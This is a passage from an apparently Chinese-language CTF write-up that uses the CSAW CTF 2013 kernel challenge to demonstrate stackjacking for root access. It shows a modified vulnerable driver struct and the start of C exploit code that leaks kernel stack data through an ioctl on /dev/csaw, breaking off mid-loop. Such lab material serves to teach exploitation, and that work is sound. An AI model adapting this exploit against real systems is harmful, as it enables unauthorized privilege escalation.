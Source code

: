 ## Demo to Exploit
我用的例子是[CSAW CTF 2013 Kernel Exploitation Challenge](https://poppopret.org/2013/11/20/csaw-ctf-2013-kernel-exploitation-challenge/#exploit)，但是因为某些原因无法泄露我的64位系统上的栈地址，所以我做了点修改：
```c
- #define DRIVER_VERSION "CSAW SUCKiT v1.3.37"
+ #define DRIVER_VERSION "AAAAAAA"

struct csaw_stats {
    unsigned long clients;
    unsigned long handles;
    unsigned long bytes_read;
    unsigned long bytes_written;
    - char version[40];
    + char version[136];
};
```
例子本来有stack leaking和arbitrary write的漏洞，符合我们stackjacking的利用条件。接下来我会用stackjacking来得到root权限。

首先我们来泄露栈的地址，可以利用iotcl函数的CSAW_GET_STATS命令。
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <unistd.h>
#include <errno.h>
#include <sys/uio.h>
#include <sys/utsname.h>

#define CSAW_IOCTL_BASE     0x77617363
#define CSAW_GET_STATS      CSAW_IOCTL_BASE+7

struct csaw_stats {
    unsigned long clients;
    unsigned long handles;
    unsigned long bytes_read;
    unsigned long bytes_written;
    char version[136];
};

int main ( int argc, char **argv )
{
    int fd, ret, i;
    struct csaw_stats csaw_stats;

    fd = open("/dev/csaw", O_RDONLY);
    if ( fd < 0 )
    {
        perror("open");
        exit(EXIT_FAILURE);
    }

    memset(&csaw_stats, 0, sizeof(csaw_stats));

    ret = ioctl(fd, CSAW_GET_STATS, &csaw_stats);
    if ( ret < 0 )
    {
        perror("ioctl");
        exit(EXIT_FAILURE);
    }

    for ( i = 0; i < 64*2; i++ )
```